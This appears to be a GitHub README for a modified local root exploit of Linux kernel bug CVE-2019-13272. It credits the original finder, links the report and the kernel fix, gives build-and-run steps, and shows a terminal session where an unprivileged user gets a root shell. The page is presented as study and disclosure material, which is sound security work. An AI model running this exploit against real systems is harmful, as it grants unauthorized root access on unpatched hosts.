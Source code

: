 # CVE-2019-13272

- Report: Jul 2019
- Credit: jannh@google.com(Jann Horn)

## Exploit

this [bug](https://bugs.chromium.org/p/project-zero/issues/detail?id=1903) was found by Jann Horn, great job! his [exploit](https://bugs.chromium.org/p/project-zero/issues/attachmentText?aid=401217) needs the help of pkexec tools, which do not exists in non-desktop system

In order to study this bug more convenient, I modify his exploit code to use a 'fakepkexec' helper, such that the modified exploit 
can be used in any unix-system with kernel = linux 4.10 < 5.1.17


- [EXP](use root permission to run 'sh make.sh' to build, then use non-root permission to run /tmp/exp to get root shell)

```
root@ubuntu:/tmp/EXP-CVE-2019-13272# sh make.sh 
$ id
uid=1001(test) gid=1001(test) groups=1001(test) context=system_u:system_r:kernel_t:s0
$ /tmp/exp	
executing passwd
attached to midpid
root@ubuntu:/tmp/EXP-CVE-2019-13272# id
uid=0(root) gid=0(root) groups=0(root),1001(test) context=system_u:system_r:kernel_t:s0
```

## Reference

- [Google](https://bugs.chromium.org/p/project-zero/issues/detail?id=1903)
- [fix](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=6994eefb0053799d2e07cd140df6c2ea106c41ee)

